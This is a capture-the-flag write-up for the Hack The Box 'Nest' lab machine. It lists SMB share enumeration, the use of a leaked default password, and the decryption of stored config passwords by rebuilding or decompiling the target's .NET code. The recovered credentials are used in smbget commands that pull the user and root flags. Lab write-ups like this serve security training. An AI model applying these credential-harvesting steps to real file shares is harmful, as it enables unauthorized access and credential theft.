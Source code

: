 ### Listing the shares:
```
$ smbclient  -L //10.10.10.178
Enter WORKGROUP\root's password:

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        Data            Disk      
        IPC$            IPC       Remote IPC
        Secure$         Disk      
        Users           Disk      
SMB1 disabled -- no workgroup available
```



### You can do the following to access the shares:
```
$ smbclient //10.10.10.178/Data
            or            /Users
            or            /C$
            or			 /Secure$
```


### enum 01
```
$ smbclient //10.10.10.178/Users -U TempUser
```

### to download the files use:
`msf > use auxiliary/admin/smb/download_file`

or
`smbget  smb://username:password@ip/<share>/<path to file or folder>`
-R argument for folders

some interesting files contain the following:

#### file 01
```
We would like to extend a warm welcome to our newest member of staff, <FIRSTNAME> <SURNAME>

You will find your home folder in the following location:
\\HTB-NEST\Users\<USERNAME>

If you have any issues accessing specific services or workstations, please inform the
IT department and use the credentials below until all systems have been set up for you.

Username: TempUser
Password: welcome2019
```

#### file 02
```
<File filename="C:\windows\System32\drivers\etc\hosts"/>
<File filename="\\HTB-NEST\Secure$\IT\Carl\Temp.txt"/>
<File filename="C:\Users\C.Smith\Desktop\todo.txt"/>
```


#### file 03  (hash 01 - C.Smith)

```
<?xml version="1.0"?>
<ConfigFile xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="ht>
  <Port>389</Port>
  <Username>c.smith</Username>
  <Password>fTEzAfYDoz1YzkqhQkH6GQFYKp1XY5hm7bjOP86yYxE=</Password>
</ConfigFile>
```




#### more enumeration 02

```
smbget -R smb://TempUser:welcome2019@10.10.10.178/Secure$/IT/Carl/
```
to download all files


#### Cracking the hash

Download Visual Studio on win
Import the project using the .sln file
In Main function we see a RU_Config.xml file been used but
doesnt exist the folder we dowloaded.
This file is the file 03. We put it in bin/Debug ...
where the Visual Studio points to.

After the already typed lines, type the following:
```
Dim MyVar = Utils.DecryptString(Config.Password)
Debug.Print(MyVar)
```
Then build and execute the project.
and we get the following pass:
`xRxRxPANCAK3SxRxRx`




```
root@system262:~# smbclient //10.10.10.178/Users -U C.Smith
Enter WORKGROUP\C.Smith's password:
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Sun Jan 26 01:04:21 2020
  ..                                  D        0  Sun Jan 26 01:04:21 2020
  Administrator                       D        0  Fri Aug  9 18:08:23 2019
  C.Smith                             D        0  Sun Jan 26 09:21:44 2020
  L.Frost                             D        0  Thu Aug  8 20:03:01 2019
  R.Thompson                          D        0  Thu Aug  8 20:02:50 2019
  TempUser                            D        0  Thu Aug  8 01:55:56 2019

                10485247 blocks of size 4096. 6544145 blocks available
smb: \> cd C.Smith\
smb: \C.Smith\> ls
  .                                   D        0  Sun Jan 26 09:21:44 2020
  ..                                  D        0  Sun Jan 26 09:21:44 2020
  HQK Reporting                       D        0  Fri Aug  9 02:06:17 2019
  user.txt                            A       32  Fri Aug  9 02:05:24 2019

                10485247 blocks of size 4096. 6544145 blocks available
```

then get the user.txt with the smbget command.

cf71b25404be5d84fd827e05f426e987



### ROAD TO root
run to dowload the folder
`smbget -R  smb://C.Smith:xRxRxPANCAK3SxRxRx@10.10.10.178/Users/C.Smith/"HQK Reporting"`



### file 04 HQK_Config_Backup.xml

```
<?xml version="1.0"?>
<ServiceSettings xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema">
  <Port>4386</Port>
  <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>
</ServiceSettings>
```


Important parts of the above are:
- 4386 new port
- <QueryDirectory>C:\Program Files\HQK\ALL QUERIES</QueryDirectory>

Also we got an .exe file and empty file(or seems to be)



Then
`$ telnet 10.10.10.178 `

### Getting the debug password


We get the info:
```
Domain=nest.local
Port=389
BaseOu=OU=WBQ Users,OU=Production,DC=nest,DC=local
User=Administrator
Password=yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=
```

### Decompiling the HqkLdap.exe binary

https://github.com/icsharpcode/ILSpy

Download ILSpy on linux or windows to decompile the HqkLdap.exe
binary. Then get the enc-dec algorithm (class CR).
Copy-paste it into an online C# compiler (ideone is a good one).

Add a Main function to print the
`DS("yyEq0Uvvhq2uQOcWG8peLoeRQehqip/fKdeG/kjEVb4=")`

the output is:
XtH4nkS4Pl4y1nGX


`$ smbclient //10.10.10.178/Users -U Administrator`

enter the pass and then we find a `flag.txt - Shortcut.lnk`
file.
download it and `cat` it .
We get the real dir of the Shortcut .

finaly we type the following to get the root flag:
`smbget smb://Administrator:XtH4nkS4Pl4y1nGX@10.10.10.178/C$/Users/Administrator/Desktop/root.txt`
